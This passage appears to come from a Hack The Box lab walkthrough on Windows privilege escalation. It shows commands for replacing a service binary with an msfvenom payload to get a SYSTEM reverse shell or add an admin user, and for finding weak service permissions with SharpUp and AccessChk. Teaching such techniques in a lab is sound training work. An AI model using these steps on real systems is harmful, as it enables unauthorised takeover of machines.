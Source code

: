 #### Replacing Service Binary

This service is also startable by unprivileged users, so we can make a backup of the original binary and replace it with a malicious binary generated with `msfvenom`. It can give us a reverse shell as `SYSTEM`, or add a local admin user and give us full administrative control over the machine.

```cmd-session
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

---

## Weak Service Permissions

#### Reviewing SharpUp Again

Let's check the `SharpUp` output again for any modifiable services. We see the `WindscribeService` is potentially misconfigured.

```cmd-session
C:\htb> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

#### Checking Permissions with AccessChk

Next, we'll use [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite to enumerate permissions on the service. The flags we use, in order, are `-q` (omit banner), `-u` (suppress errors), `-v` (verbose), `-c` (specify name of a Windows service), and `-w` (show only objects that have write access). Here we can see that all Authenticated Users have [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) rights over the service, which means full read/write control over it.

```cmd-session
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```
